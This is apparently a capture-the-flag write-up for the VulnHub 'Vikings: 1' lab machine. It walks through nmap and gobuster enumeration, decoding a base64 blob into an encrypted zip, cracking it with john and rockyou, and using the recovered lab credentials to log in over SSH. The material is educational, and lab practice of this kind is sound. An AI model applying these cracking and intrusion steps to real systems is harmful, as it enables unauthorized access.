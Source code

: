 # Info

Vikings: 1

https://www.vulnhub.com/entry/vikings-1,741/

A CTF machine with full of challenges.

Do what is visible, no rabbit holes.

Learn new things, and make sure that you enum first then hack.

Discord- luckythandel#6053 {for any-hint}.


# Enumeration 

```bash
$ nmap 192.168.56.1/24

Nmap scan report for 192.168.56.11
Host is up (0.0010s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

![web server](01.png)


```bash
gobuster dir --wordlist=/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt --url=192.168.56.11/site -x txt,php,sh,zip,gz,tar.gz,rar -r

```

![war txt](02.png)


```bash
wget http://192.168.56.11/site/war-is-over/
cat index.html | base64 -d > binary
```

```bash
file binary                                                                     
binary: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
```

```bash
zip2john binary > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
binary/king:ragnarok123:king:binary:binary
```
![picture](03.png)

Check for stego but no luck.


![binwalk](04.png)

```bash
cat user                           
//FamousBoatbuilder_floki@vikings                                     
//f@m0usboatbuilde7
``` 

```bash
ssh floki@192.168.56.11
using password --> Worked!
```

![ragnar flag](05.png)


![puzzlee](06.png)


